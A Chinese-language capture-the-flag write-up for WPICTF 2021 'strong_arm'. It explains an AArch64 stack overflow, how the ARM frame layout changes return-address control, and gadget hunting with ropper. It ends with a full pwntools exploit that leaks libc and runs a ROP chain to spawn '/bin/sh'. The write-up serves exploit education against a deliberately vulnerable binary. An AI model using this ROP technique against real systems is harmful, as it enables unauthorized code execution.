 # Wpictf 2021 Strong_arm


文件来源: [strong_arm](https://github.com/datajerk/ctf-write-ups/tree/master/wpictf2021/strong_arm)
<!--more-->
## 环境搭建

安装 `qemu-user`，`libc` 和 `binutils`：

```shell
$ sudo apt install qemu-user libc6-arm64-cross binutils-aarch64-linux-gnu
```

发现交叉编译工具链里没有 `ldd`，可以用 `readelf` 替代：

```shell
$ aarch64-linux-gnu-readelf -a arm | grep 'library'
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
```

查找 gadget：

```shell
$ ropper --nocolor --file /usr/aarch64-linux-gnu/lib/libc.so.6 > gadget
$ cat gadget | grep ': ldr x0.*; ldp x29, x30, \[sp\], #0x[0-9a-f]*; ret; $'
```

## 漏洞分析

非常明显的栈溢出漏洞。但需要注意的是 Aarch64 的函数调用栈栈帧结构与 x86 不同。以该题 `main` 栈帧为例，`x29` 和 `x30` 分别是栈基址寄存器和 `lr` 。可以看到这两个寄存器的值保存在栈顶，然后才是局部变量。栈帧结构与 x86 正好是相反的。因此发生栈溢出的时候能够修改的是 `caller` 的返回地址。

```assembly
.text:00000000004006B0                 STP             X29, X30, [SP,#var_20]!
.text:00000000004006B4                 MOV             X29, SP
.text:00000000004006B8                 STR             W0, [X29,#0x20+var_4]
.text:00000000004006BC                 STR             X1, [X29,#0x20+var_10]
.text:00000000004006C0                 ADRP            X0, #printf_ptr@PAGE
.text:00000000004006C4                 LDR             X1, [X0,#printf_ptr@PAGEOFF]
.text:00000000004006C8                 ADRL            X0, aPrintAtP ; "print at %p\n"
.text:00000000004006D0                 BL              .printf
.text:00000000004006D4                 BL              vulnerable
.text:00000000004006D8                 MOV             W0, #0
.text:00000000004006DC                 LDP             X29, X30, [SP+0x20+var_20],#0x20
.text:00000000004006E0                 RET
```

由于 `ret` 指令不从栈上取返回地址，而是从 `x30` 取，因此 rop chain 的构造比 x86 要困难一些。

```python
# ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
gadget = 0x0000000000063e1c
payload = b'a' * 0x88 + p64(gadget + libc.address) + b'a' * 0x18 + p64(libc.sym.system) + b'a' * 0x8 + p64(next(libc.search(b'/bin/sh')))
```

这里使用的 libc 是 2.31 版本，不过构造方法应该都是一致的。首先填充 `vuln` 函数的局部变量空间以及 `x29` 然后是我们的 gadget，然后填充 `main` 的局部变量空间。在 `main` 退出时 `sp` 指向 payload 中偏移为 0xa0 的位置，因此根据我们的 gadget 需要在 0xb8 的位置填上 `/bin/sh` 地址，再在栈顶填好 `x29`  和 `x30`，就可以调用 `system("/bin/sh")` 了。

完整 exp 如下：

```python
from pwn import *

context.log_level = 'debug'

binary = ELF('./arm')
libc = ELF('/usr/aarch64-linux-gnu/lib/libc.so.6')

cmd = 'qemu-aarch64 -L /usr/aarch64-linux-gnu arm'
p = process(cmd.split(' '))

# ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
gadget = 0x0000000000063e1c

p.recvuntil('print at ')
leak = int(p.recvline()[:-1], 16)
libc.address = leak - libc.sym.printf
success(hex(libc.address))

payload = b'a' * 0x88 + p64(gadget + libc.address) + b'a' * 0x18 + p64(libc.sym.system) + b'a' * 0x8 + p64(next(libc.search(b'/bin/sh')))

p.sendline(payload)

p.interactive()
```



